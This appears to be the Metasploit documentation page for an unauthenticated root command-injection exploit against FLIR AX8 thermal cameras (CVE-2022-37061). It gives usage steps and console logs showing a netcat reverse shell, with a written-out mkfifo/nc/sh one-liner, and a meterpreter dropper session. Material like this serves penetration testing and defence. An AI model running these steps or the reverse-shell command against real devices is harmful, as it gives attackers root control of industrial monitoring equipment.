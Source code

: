 ## Vulnerable Application

FLIR AX8 is a thermal sensor with imaging capabilities, combining thermal and visual cameras
that provides continuous temperature monitoring and alarming for critical electrical and mechanical equipment.
This device is typically used for monitoring industrial environments in a LAN based configuration.
Occasionally you can find a FLIR AX8 device where the HTTP web interface is exposed to the public internet.

FLIR AX8 is affected by an unauthenticated remote command injection vulnerability.
This can be exploited to inject and execute arbitrary shell commands as the root user through the `id` HTTP POST parameter
in `res.php` endpoint.
A successful exploit could allow the attacker to execute arbitrary commands on the underlying operating system with the root privileges.
This issue affects all FLIR AX8 thermal sensor cameras version up to and including `1.46.16`.

The endpoint `/res.php` can be called remotely without user authentication as there is no cookie verification `Cookie: PHPSESSID=ID`
to check if the request is legitimate. The second problem is that the POST parameter id can be injected to execute any unix command.

Installing a vulnerable test bed requires a FLIR AX8 camera with the vulnerable firmware loaded.

This module has been tested against a FLIR AX8 camera with the specifications listed below:

* FLIR AX8 thermal camera
* Firmware v1.40.16

## Verification Steps

1. `use exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `netcat` shell or `meterpreter` session depending on the target and payload settings.

## Options
No specific options.

## Scenarios

### FLIR AX8 netcat reverse shell

```
msf > use exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061
[*] Using configured payload cmd/unix/reverse_netcat
msf exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > options

Module options (exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all add
                                       resses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting    Required  Description
   ----   ---------------    --------  -----------
   LHOST                     yes       The listen address (an interface may be specified)
   LPORT                     yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lport 4444
lport => 4444
msf exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set target 0
target => 0
msf exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited!
[*] Performing command injection test issuing a sleep command of 10 seconds.
[*] Elapsed time: 10.947262728999704 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Unix Command with mkfifo /tmp/eyhxvh; nc 192.168.100.7 4444 0</tmp/eyhxvh | /bin/sh >/tmp/eyhxvh 2>&1; rm /tmp/eyhxvh
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:37980) at 2022-10-21 07:00:16 +0000

whoami
root
uname -a
Linux neco 3.0.35-flir #1 PREEMPT Thu Oct 20 08:20:20 CET 2022 armv7l GNU/Linux
exit
```

### FLIR AX8 meterpreter session

```
msf > use exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > options

Module options (exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to li>
                                       resses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/armle/meterpreter_reverse_tcp):

   Name   Current Setting    Required  Description
   ----   ---------------    --------  -----------
   LHOST                     yes       The listen address (an interface may be specified)
   LPORT                     yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lport 4444
lport => 4444
msf exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set target 1
target => 1
msf exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited!
[*] Performing command injection test issuing a sleep command of 7 seconds.
[*] Elapsed time: 7.929586360999565 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper
[*] Using URL: http://0.0.0.0:8080/GOCjBdalaU
[*] Client 127.0.0.1 (curl/7.33.0) requested /GOCjBdalaU
[*] Sending payload to 127.0.0.1 (curl/7.33.0)
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:56540) at 2022-10-21 07:02:57 +0000
[*] Command Stager progress - 100.00% done (125/125 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.100.180
OS           :  (Linux neco 3.0.35-flir)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
Staged payloads like `linux/armle/meterpreter/reverse_tcp` or `linux/armle/shell/reverse_tcp` do not work.
Manually tested these payloads with `msfvenom`, but they produce segmentation faults when executed on the target.
However stageless payloads such as `linux/armle/meterpreter_reverse_tcp` and `linux/armle/shell_reverse_tcp` are working.
